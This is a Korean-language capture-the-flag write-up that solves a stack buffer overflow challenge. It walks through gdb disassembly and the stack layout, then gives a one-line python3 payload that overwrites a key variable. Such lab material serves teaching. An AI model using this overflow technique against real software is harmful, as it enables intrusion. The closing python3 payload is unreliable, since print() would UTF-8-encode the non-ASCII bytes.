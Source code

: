 ## 풀이

1. func()에서 key = 0xdeadbeef를 key = 0xcafebabe로 바꾸면 플래그를 출력한다.
2. gets() 함수를 이용해 입력을 받고 target[32] 32바이트를 넘겨서 key를 덮어 쓸 수 있다.
3. key[4]와 target[32] 간의 거리를 gdb로 분석하면 다음과 같다.
```
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:  	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63
   .
   .

따라서 Key는 ebp+0x8에 위치
target[32]는 ebp-0x2c에 위치
```
4. 이를 스택으로 표현면 다음과 같다.
```
== Low Address ==

target[32]

dummy[12]

ebp+ret[8]

key[4]

== High Address ==
```
5. 따라서 52바이트의 패딩를 이용해 key를 덮어 쓸 수 있다.
6. 이를 이용해 플래그를 얻을 수 있다.
```
python3 -c 'print("A"*52 + "\xbe\xba\xfe\xca")' | ./bof
```
